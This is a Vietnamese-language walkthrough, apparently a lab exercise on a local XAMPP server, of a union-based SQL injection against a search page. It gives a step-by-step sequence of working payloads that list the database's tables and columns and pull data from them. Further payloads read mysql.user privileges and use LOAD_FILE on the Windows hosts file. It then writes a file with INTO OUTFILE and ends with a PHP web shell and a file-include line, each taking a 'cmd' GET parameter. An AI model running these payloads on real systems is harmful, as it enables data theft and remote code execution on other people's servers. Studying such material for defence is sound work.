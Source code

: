 Người thực hiện: Lê Trần Văn Chương.
Ngày: 05/04/2022.
Mục lục:
- [Khai thác SQLi Union Based chức năng search ở trang index.php](#khai-thác-sqli-union-based-chức-năng-search-ở-trang-indexphp)
- [LOAD_FILE()](#load_file)
- [OUTFILE()](#outfile)
- [<?include($_GET['cmd']); ?>](#include_getcmd-)
## Khai thác SQLi Union Based chức năng search ở trang index.php
1. Kiểm tra xem có tổng cộng bao nhiêu cột dữ liệu trong bảng của DB.
`' ORDER BY 14 #` 
	
2. Vị trí của từng cột dữ liệu trong bảng hiện ở ngoài client (1, 12, 2, 10, 11)
`' UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14 #`
![Hinh 1.](~/../img/1.png)

3. Kiểm tra kiểu dữ liệu của từng cột hiện ở ngoài client (1)
`' UNION SELECT 'a',NULL,3,4,5,6,7,8,9,NULL,NULL,NULL,13,14 #` 
![Hinh 2.](~/../img/2.png)

4. Kiểm tra kiểu dữ liệu của từng cột hiện ở ngoài client (2)
`' UNION SELECT 'a','a',3,4,5,6,7,8,9,NULL,NULL,NULL,13,14 #`
![Hinh 3.](~/../img/3.png)

5. Kiểm tra kiểu dữ liệu của từng cột hiện ở ngoài client (10)
`' UNION SELECT 'a','a',3,4,5,6,7,8,9,'a',NULL,NULL,13,14 #` 
![Hinh 4.](~/../img/4.png)

6. Kiểm tra kiểu dữ liệu của từng cột hiện ở ngoài client (11)
`' UNION SELECT 'a','a',3,4,5,6,7,8,9,'a','a',NULL,13,14 #` 
![Hinh 5.](~/../img/5.png)

7. Kiểm tra kiểu dữ liệu của từng cột hiện ở ngoài client (12)
`' UNION SELECT 'a','a',3,4,5,6,7,8,9,'a','a','a',13,14 #` 
![Hinh 6.](~/../img/6.png)

8. Kiểm tra thử những cột vừa rồi kiểu dữ liệu có phải là string hay không
`' UNION SELECT 'asd','asd',3,4,5,6,7,8,9,'asd','asd','asd',13,14 #` 
=> Các cột hiện trên client đều có kiểu dữ liệu là string
![Hinh 7.](~/../img/7.png)

9. Kiểm tra DB hiện tại
`' UNION SELECT database(),2,3,4,5,6,7,8,9,10,11,12,13,14 #` 
![Hinh 8.](~/../img/8.png)

10.  Version của DB
`' UNION SELECT version(),2,3,4,5,6,7,8,9,10,11,12,13,14 #` 
![Hinh 9.](~/../img/9.png)

11. Lấy tất cả các table có trong DB
`' UNION SELECT  table_name,2,3,4,5,6,7,8,9,10,11,12,13,14 FROM information_schema.tables #`
(Một số bảng đáng chú ý: `admin_func, payload, user, users, account, accounts`)
![Hinh 10.](~/../img/10.png)

12.  Lấy tất cả các trường trong bảng admin_func
`' UNION SELECT  column_name,2,3,4,5,6,7,8,9,10,11,12,13,14 FROM information_schema.columns WHERE table_name='admin_func' #`
=> từ đây có thể khai thác dữ liệu như mình muốn
![Hinh 11.](~/../img/11.png)

13.  Ví dụ: tôi khai thác cột `name` và `extension` của bảng `payload`.
`' UNION SELECT  name,extension,3,4,5,6,7,8,9,10,11,12,13,14 FROM payload  #`
![Hinh 12.](~/../img/12.png)

## LOAD_FILE()
1. Đầu tiên, xem quyền của user bằng hàm `group_concat(table_name)`
`' UNION SELECT (SELECT group_concat(user,file_priv) FROM mysql.user),NULL,3,4,5,6,7,8,9,NULL,NULL,NULL,13,14 #`
![Hinh 13.](~/../img/13.png)

2. Kiểm tra file `tmp` đang ở đâu
`' UNION SELECT @@slave_load_tmpdir,NULL,3,4,5,6,7,8,9,NULL,NULL,NULL,13,14 #` 
=> `C:\xampp\tmp`
![Hinh 14.](~/../img/14.png)

3. File hosts
`' UNION SELECT load_file("C:/Windows/System32/Drivers/etc/hosts"),NULL,3,4,5,6,7,8,9,NULL,NULL,NULL,13,14 #`
![Hinh 15.](~/../img/16.png)

## OUTFILE()

`' UNION SELECT NULL,NULL,3,4,5,6,7,8,9,NULL,NULL,NULL,13,14 INTO OUTFILE "C:/Users/MTGR/Desktop/test.php" #`
![Hinh 16.](~/../img/17.png)

---php
<pre>
<?php
	system($_GET['cmd'])
?>
</pre>

<?include($_GET['cmd']); ?>
---
